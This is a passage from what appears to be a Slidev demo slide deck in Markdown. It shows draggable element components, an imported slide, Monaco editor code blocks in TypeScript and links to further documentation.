







</div>

Learn more: [Mermaid Diagrams](https://sli.dev/features/mermaid) and [PlantUML Diagrams](https://sli.dev/features/plantuml)

---
foo: bar
dragPos:
  square: 0,-145,0,0
---

# Draggable Elements

Double-click on the draggable elements to edit their positions.

<br>

###### Directive Usage

```md

```

<br>

###### Component Usage

```md
<v-drag text-3xl>
  <div class="i-carbon:arrow-up" />
  Use the `v-drag` component to have a draggable container!
</v-drag>
```

<v-drag pos="415,110,494,_,-15">
  <div text-center text-3xl border border-main rounded>
    Double-click me!
  </div>
</v-drag>


###### Draggable Arrow

```md
<v-drag-arrow two-way />
```

<v-drag-arrow pos="599,339,-557,-112" two-way op70 />

---
src: ./pages/imported-slides.md
hide: false
---

---

# Monaco Editor

Slidev provides built-in Monaco Editor support.

Add `{monaco}` to the code block to turn it into an editor:

```ts {monaco}
import { ref } from 'vue'
import { emptyArray } from './external'

const arr = ref(emptyArray(10))
```

Use `{monaco-run}` to create an editor that can execute the code directly in the slide:

```ts {monaco-run}
import { version } from 'vue'
import { emptyArray, sayHello } from './external'

sayHello()
console.log(`vue ${version}`)
console.log(emptyArray<number>(10).reduce(fib => [...fib, fib.at(-1)! + fib.at(-2)!], [1, 1]))
```

---
layout: center
class: text-center
---

# Learn More

[Documentation](https://sli.dev) · [GitHub](https://github.com/slidevjs/slidev) · [Showcases](https://sli.dev/resources/showcases)

<PoweredBySlidev mt-10 />
